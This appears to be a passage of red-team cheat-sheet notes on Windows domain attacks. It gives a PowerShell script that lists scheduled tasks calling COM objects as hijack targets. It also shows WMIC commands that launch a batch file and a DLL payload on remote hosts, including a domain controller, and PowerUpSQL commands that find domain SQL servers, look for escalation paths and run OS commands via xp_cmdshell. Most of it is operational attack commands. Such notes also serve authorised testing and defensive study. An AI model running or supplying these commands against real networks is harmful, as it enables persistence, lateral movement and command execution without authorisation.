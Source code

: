 Another great place to look for hijackable COM components is in the Task Scheduler.  Rather than executing binaries on disk, many of the default Windows Tasks actually use Custom Triggers to call COM objects.  
And because they're executed via the Task Scheduler, it's easier to predict when they're going to be triggered.

This simple powershell script can be used to achieve this operation. 

```powershell
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
    if ($Task.Actions.ClassId -ne $null)
    {
        if ($Task.Triggers.Enabled -eq $true)
        {
            if ($Task.Principal.GroupId -eq "Users")
            {
                Write-Host "Task Name: " $Task.TaskName
                Write-Host "Task Path: " $Task.TaskPath
                Write-Host "CLSID: " $Task.Actions.ClassId
                Write-Host
            }
        }
    }
}
```

# Lateral Movement

##### WMIC Lateral Movement

```cpp
wmic /node:"192.168.1.2" process call create "C:\Perflogs\434.bat"
WMIC /node:"DC.example.domain" process call create "rundll32 C:\PerfLogs\arti64.dll, StartW"
```

# MSSQL databases

PowerUpSQL can be used to look for databases within the domain, and gather further information on databases.

```py
# Get MSSQL databases in the domain, and test connectivity
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded | ft

# Try to get information on all domain databases
Get-SQLInstanceDomain | Get-SQLServerInfo

# Get information on a single reachable database
Get-SQLServerInfo -Instance 'sql-1.cyber.io,1433'

# Scan for MSSQL misconfigurations to escalate to SA
Invoke-SQLAudit -Verbose -Instance UFC-SQLDEV

#PowerUpSQL automatically crawl database links
Get-SQLServerLinkCrawl -Instance 'sql-1.cyber.io,1433'

# Execute SQL query
Get-SQLQuery -Query "SELECT system_user" -Instance sql-1.cyber.io

# Run command (requires XP_CMDSHELL to be enabled)
Invoke-SQLOSCmd -Instance sql-1.cyber.io -Command "whoami" |  select -ExpandProperty CommandResults
Invoke-SQLOSCmd -Instance sql-1.cyberbotic.io -Command 'dir C:\' -RawResults
```